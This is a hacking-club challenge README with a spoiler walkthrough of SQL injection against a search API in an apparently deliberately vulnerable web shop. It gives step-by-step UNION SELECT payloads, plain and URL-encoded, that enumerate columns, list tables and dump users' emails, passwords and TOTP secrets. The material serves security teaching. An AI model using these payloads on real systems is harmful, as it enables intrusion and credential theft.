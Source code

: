 # Challenge 2 - You're Dumped.

Try and use SQLi to dump all user credentials!

<details>
  <summary>Click me for a hint</summary>
  
  ```
  Try and capture the search api in burp, the q= parameter might not like certain inputs.
  ```
</details>

<details>
  <summary>Click me for all the spoilers</summary>
  
  # Spoilers
  
  Firstly, make sure burp is intercepting and refresh the main page.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/1.png">
  </p>
  
  Foward the requests until you reach the search api `/rest/products/search?q=`. Once found, right click and `Send to Repeater`.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/2.png">
  </p>
  
  
 If we send the request with a `'`, we get success. Let's try and prompt an error message.
 
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/3.png">
  </p>
  
  
 By putting `aaa'` as our parameter, we got an error. Notice the `SQLITE_ERROR`, this tells us that the backend database is SQLITE, this is useful we now know the specific syntax required for injection (using a bit of Google-Fu). 
  
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/4.png">
  </p>
  

  
  The query is: `SELECT * FROM Products WHERE ((name LIKE '%<input>%' OR description LIKE '%<input>%') AND deletedAt IS NULL) ORDER BY name`.
  
  It's a longer one than last time, but we can still inject into it. As we want to dump the database, we'll be using `UNION SELECT` to inject.
  
  The first thing we need to do is enumerate how many columns are actually being displayed when we perform as search. We can do that using `aaa')) union select 1 --` (if there is only 1 column, we shouldn't get an error).
  
  So the new query should look like: `SELECT * FROM Products WHERE ((name LIKE '%aaa')) union select 1 -- ` ~~%' OR description LIKE '%<input>%') AND deletedAt IS NULL) ORDER BY name~~

  Let's try it. We also need to ensure we are url encoding our text as it will be sent within the url of the request, not in the data like last time. To do this, highlight and right click the text. Do `Convert Selection` > `URL` > `URL-encode key characters`

  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/5.png">
  </p>

  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/6.png">
  </p>


  Our first request injection should look like this. Once it's sent, we receive a different error.

<p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/7.png">
  </p>
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/8.png">
  </p>

  The error states `SELECTs to the left and right of UNION do not have the same number of result columns`. This means that there are either more or less than 1 column(s).


  Lets try 2 instead!

  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/9.png">
  </p>  
    
  Nope, same message.
  
  Let's try 3!
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/10.png">
  </p>

  
  Nope...
  
  Let's continue until we no longer get that message.
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/11.png">
  </p>
  
  Eventually we see that there are a total of 9 columns being displayed by the search function.

  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/12.png">
  </p>

  Now that we know the amount of columns, we can being enumerating and dumping data from the database. As we know the backend database is using SQLITE, we can tailor our injection to that format.
  
  Let's start by dumping the table names. This can be done with the following query:
  
    aaa')) union select 1,2,3,4,5,6,7,8,tbl_name from sqlite_master -- 
  
  and when url encoded:
  
    aaa'))+union+select+1,2,3,4,5,6,7,8,tbl_name+from+sqlite_master+--+
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/13.png">
  </p>

  When we send this query, column 9 should include the table names. 
  
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/14.png">
  </p>
  
  Now we know the table names, let's try and get the column names from the table 'Users'. Our modified query will look like this:
   
    aaa')) union select 1,2,3,4,5,6,7,8,sql from sqlite_master where tbl_name = 'Users' -- 
    
  and when url encoded:
  
    aaa'))+union+select+1,2,3,4,5,6,7,8,sql+from+sqlite_master+where+tbl_name='Users'+--+
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/15.png">
  </p>
  
  Let's send the request and see what we get.
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/16.png">
  </p>
  
  Now we know the column names, we can get all the data held within this table. Let's grab the `id`, `username`, `email`, `password`, `role`, and `totpSecret`.
  
  Our query should look like:
  
    aaa')) union select id,username,email,password,role,totpSecret,7,8,9 from Users -- 
  
  and when url encoded:
  
    aaa'))+union+select+id,username,email,password,role,totpSecret,7,8,9+from+Users+--+
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/17.png">
  </p>
  
  Let's send our request!
  
    
  <p align="center">
	<img src="https://github.com/DMUHackers/weekly_sessions/blob/master/2020-2021/week_7/challenge_2/ch2shots/18.png">
  </p>

  Success! We have dumped the table holding the user credentials.

</details>
